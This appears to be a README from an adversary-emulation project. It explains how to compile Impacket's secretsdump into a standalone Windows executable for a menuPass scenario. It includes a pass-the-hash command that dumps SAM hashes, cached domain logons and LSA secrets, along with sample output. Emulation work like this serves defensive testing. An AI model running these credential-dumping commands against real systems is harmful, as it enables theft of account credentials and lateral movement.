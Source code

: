 # Impacket for secretsdump.exe

This is a slightly modified version of Fortra's [Impacket](https://github.com/fortra/impacket/tree/master) at [commit 2de29184dc93247829099fcbc52ff256817c6a94](https://github.com/fortra/impacket/tree/2de29184dc93247829099fcbc52ff256817c6a94).

- The original license can be found [here](https://github.com/fortra/impacket/blob/master/LICENSE) and on the [original Github](https://github.com/fortra/impacket/tree/master).
- The original README can be found [here](https://github.com/fortra/impacket/blob/master/README.md) and on the [original Github](https://github.com/fortra/impacket/tree/master).

The following modifications have been made to the library for compatability in building secretsdump.exe via PyInstaller:
- Renamed `impacket\http.py` to `impacket\impacket_http.py`
- Edited `impacket\dcerpc\v5\rpch.py` import of `impacket.http` to `impacket.impacket_http`

## Usage

Command line arguments and usage of the compiled secretsdump.exe is the same as its Python counterpart.

```cmd
secretsdump.exe -h
```

```cmd
Impacket v0.11.0 - Copyright 2023 Fortra

usage: secretsdump.exe [-h] [-ts] [-debug] [-system SYSTEM] [-bootkey BOOTKEY] [-security SECURITY] [-sam SAM] [-ntds NTDS] [-resumefile RESUMEFILE] [-outputfile OUTPUTFILE] [-use-vss] [-rodcNo RODCNO]
                       [-rodcKey RODCKEY] [-use-keylist] [-exec-method [{smbexec,wmiexec,mmcexec}]] [-just-dc-user USERNAME] [-ldapfilter LDAPFILTER] [-just-dc] [-just-dc-ntlm] [-pwd-last-set] [-user-status]
                       [-history] [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key] [-keytab KEYTAB] [-dc-ip ip address] [-target-ip ip address]
                       target

Performs various techniques to dump secrets from the remote machine without executing any agent there.

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address> or LOCAL (if you want to parse local files)

options:
  -h, --help            show this help message and exit
  -ts                   Adds timestamp to every logging output
  -debug                Turn DEBUG output ON
  -system SYSTEM        SYSTEM hive to parse
  -bootkey BOOTKEY      bootkey for SYSTEM hive
  -security SECURITY    SECURITY hive to parse
  -sam SAM              SAM hive to parse
  -ntds NTDS            NTDS.DIT file to parse
  -resumefile RESUMEFILE
                        resume file name to resume NTDS.DIT session dump (only available to DRSUAPI approach). This file will also be used to keep updating the session's state
  -outputfile OUTPUTFILE
                        base output filename. Extensions will be added for sam, secrets, cached and ntds
  -use-vss              Use the VSS method instead of default DRSUAPI
  -rodcNo RODCNO        Number of the RODC krbtgt account (only avaiable for Kerb-Key-List approach)
  -rodcKey RODCKEY      AES key of the Read Only Domain Controller (only avaiable for Kerb-Key-List approach)
  -use-keylist          Use the Kerb-Key-List method instead of default DRSUAPI
  -exec-method [{smbexec,wmiexec,mmcexec}]
                        Remote exec method to use at target (only when using -use-vss). Default: smbexec

display options:
  -just-dc-user USERNAME
                        Extract only NTDS.DIT data for the user specified. Only available for DRSUAPI approach. Implies also -just-dc switch
  -ldapfilter LDAPFILTER
                        Extract only NTDS.DIT data for specific users based on an LDAP filter. Only available for DRSUAPI approach. Implies also -just-dc switch
  -just-dc              Extract only NTDS.DIT data (NTLM hashes and Kerberos keys)
  -just-dc-ntlm         Extract only NTDS.DIT data (NTLM hashes only)
  -pwd-last-set         Shows pwdLastSet attribute for each NTDS.DIT account. Doesn't apply to -outputfile data
  -user-status          Display whether or not the user is disabled
  -history              Dump password history, and LSA secrets OldVal

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it will use the ones specified in the command
                        line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256 bits)
  -keytab KEYTAB        Read keys for SPN from keytab file

connection:
  -dc-ip ip address     IP Address of the domain controller. If ommited it use the domain part (FQDN) specified in the target parameter
  -target-ip ip address
                        IP Address of the target machine. If omitted it will use whatever was specified as target. This is useful when target is the NetBIOS name and you cannot resolve it
```

In the menuPass scenario, secretsdump.exe is ingressed and executed by SodaMaster. The following is the executed command line arguments to dump local SAM hashes, cached domain login information, and LSA secrets:

```cmd
secretsdump.exe [domain]/[admin username]@127.0.0.1 -hashes :[admin NTLM]
```

```cmd
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: ...
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
...
[*] Dumping cached domain logon information (domain/username:hash)
...
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
...
[*] DefaultPassword
...
[*] DPAPI_SYSTEM
...
[*] NL$KM
...
[*] Cleaning up...
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
```

## Build Instructions

### Build Environment Setup

The following steps will walk through setup of the build environment.

1. Open a Command Prompt with administrative privileges to install python (minimum Python 3.12)

    ```cmd
    choco install python
    ```

1. From menu_pass/Resources/impacket, create a Python virtual environment

    ```cmd
    python -m venv impacket-venv
    ```

1. Activate the virtual environment

    ```cmd
    impacket-venv\Scripts\activate.bat
    ```

1. Install pip (minimum Pip 23.2.1) then use pip to install pyinstaller and impacket

    ```cmd
    python -m pip install -U pip
    pip install pyinstaller
    pip install impacket
    ```

1. Manually edit pip installed impacket library. This deconflicts with Python's built in HTTP package
    1. Rename `impacket-venv\Lib\site-packages\impacket\http.py` to `impacket-venv\Lib\site-packages\impacket\impacket_http.py`
    1. Edit `impacket-venv\Lib\site-packages\impacket\dcerpc\v5\rpch.py` import of `impacket.http` to `impacket.impacket_http`

1. Add `C:\Windows\system32\downlevel` to `PATH` to ensure api-ms-win-crt...dll dependencies can be found

    ```cmd
    set PATH=%PATH%;C:\Windows\System32\downlevel;
    ```

### PyInstaller Build Command

1. Build secretsdump.exe using pyinstaller. This will create a `build` and a `dist` directory in the current working directory.

    ```cmd
    pyinstaller examples\secretsdump.py --onefile --path impacket
    ```

1. Test execution of secretsdump.exe

    ```
    cd dist
    secretsdump.exe -h
    ```

## CTI Reporting

[PwC - Operation Cloud Hopper: Technical Annex](https://www.pwc.co.uk/cyber-security/pdf/pwc-uk-operation-cloud-hopper-technical-annex-april-2017.pdf#page=28)
